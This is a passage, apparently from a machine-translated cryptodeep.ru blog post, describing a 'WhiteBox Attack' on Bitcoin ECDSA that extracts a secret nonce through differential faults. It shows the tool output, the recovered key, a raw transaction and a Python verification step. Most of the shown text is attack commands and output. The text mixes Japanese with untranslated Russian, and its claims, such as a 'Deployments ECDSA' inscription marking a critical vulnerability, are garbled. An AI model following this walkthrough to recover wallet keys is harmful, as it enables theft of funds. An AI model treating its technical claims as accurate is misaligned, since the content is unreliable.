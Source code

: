 <p>この攻撃は から開始され<code>-tool whitebox_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-32-1024x491.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1614"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd

RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>スクリプトで確認してみましょう<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>楕円曲線ライブラリを使用しましょう:</p>



<p>次のように指定してスクリプトを実行しましょう<code>&nbsp;секретный ключ "K" (NONCE)</code>。</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-33-1024x92.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1616"/></figure>



<p><code>(0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26 , 0x61200da995a31b5be6f875decb954d0e3f8c54d16f7428827a2436cd2fce9419)</code></p>
